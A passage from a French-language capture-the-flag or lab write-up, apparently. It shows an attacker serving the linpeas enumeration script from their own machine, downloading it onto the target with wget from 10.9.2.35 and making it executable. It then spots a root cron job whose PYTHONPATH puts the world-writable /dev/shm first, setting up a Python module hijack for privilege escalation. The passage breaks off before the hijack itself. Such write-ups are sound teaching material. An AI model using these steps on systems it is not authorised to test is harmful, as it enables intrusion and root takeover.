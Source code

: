 Maintenant que nous sommes sur la machine on va pas s'embêter a chercher des failles a la main vu qu'on a `linpeas` donc en premier on ouvre un server python **dans le dossier** où se trouve notre `linpeas.sh` comme ceci `python -m http.server 80` et ensuite on récupère le fichier linpeas.sh avec un `wget` depuis notre ssh

```bash
emp@23348446b037:~$ wget http://10.9.2.35/linpeas.sh
--2025-10-26 19:36:16--  http://10.9.2.35/linpeas.sh
Connecting to 10.9.2.35:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 971926 (949K) [text/x-sh]
Saving to: 'linpeas.sh'

linpeas.sh                      100%[====================================================>] 949.15K  1.78MB/s    in 0.5s    

2025-10-26 19:36:16 (1.78 MB/s) - 'linpeas.sh' saved [971926/971926]

emp@23348446b037:~$ chmod +x linpeas.sh
```

Puis on l'exécute et on observe.

J'ai identifié un vecteur d'escalade de privilèges intéressant :

```bash
-rwxr--r-- 1 root root 224 Aug 15 2023 /usr/local/sbin/backup.py
```

**Pourquoi c'est suspect ?**
Tâche CRON automatisée (trouvée dans `cron.log`)

```bash
root PYTHONPATH=/dev/shm:$PYTHONPATH python3 /usr/local/sbin/backup.py
```

- S'exécute périodiquement en tant que root
- Appartient à root et est exécuté par root

Voici le contenu du fichier
```bash
emp@23348446b037:~$ cat /usr/local/sbin/backup.py 
#custom backup script (to be created)
import cbackup
import time

# Start backup process
cbackup.init('/home/emp/app')
# log completion time
t=time.localtime()
current_time = time.strftime("%H:%M:%s", t)
print(current_time)
```

**PYTHONPATH manipulable**

Le PYTHONPATH inclut `/dev/shm` en premier
- `/dev/shm` est généralement accessible en écriture pour tous les utilisateurs
- Python cherche les modules dans l'ordre du PYTHONPATH
